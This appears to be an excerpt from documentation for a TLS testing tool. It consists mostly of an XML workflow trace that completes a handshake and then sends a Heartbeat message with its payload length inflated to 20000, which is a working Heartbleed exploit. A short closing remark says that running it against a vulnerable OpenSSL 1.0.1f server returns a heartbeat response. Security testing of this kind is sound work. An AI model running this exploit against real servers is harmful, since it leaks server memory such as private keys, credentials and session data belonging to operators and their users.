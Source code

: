 ```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<workflowTrace>
    <Send>
        <messages>
            <ClientHello>
                <extensions>
                    <ECPointFormat/>
                    <HeartbeatExtension/>
                    <EllipticCurves/>
                </extensions>
            </ClientHello>
        </messages>
    </Send>
    <Receive>
        <expectedMessages>
            <ServerHello>
                <extensions>
                    <ECPointFormat/>
                </extensions>
            </ServerHello>
            <Certificate/>
            <ServerHelloDone/>
        </expectedMessages>
    </Receive>
    <Send>
        <messages>
            <RSAClientKeyExchange>
                <computations/>
            </RSAClientKeyExchange>
            <ChangeCipherSpec/>
            <Finished/>
        </messages>
    </Send>
    <Receive>
        <expectedMessages>
            <ChangeCipherSpec/>
            <Finished/>
        </expectedMessages>
    </Receive>
    <Send>
        <messages>
            <Heartbeat>
                <payloadLength>
                <integerExplicitValueModification>
                    <explicitValue>20000</explicitValue>
                </integerExplicitValueModification>
                </payloadLength>
            </Heartbeat>
	</messages>
    </Send>
    <Receive>
      <Heartbeat/>
    </Receive>
</workflowTrace>
```
As you can see, we explicitly increased the payload length of the heartbeat message by 20000.
If you run the attack against the vulnerable server (e.g., OpenSSL 1.0.1f), you should see a valid heartbeat response.
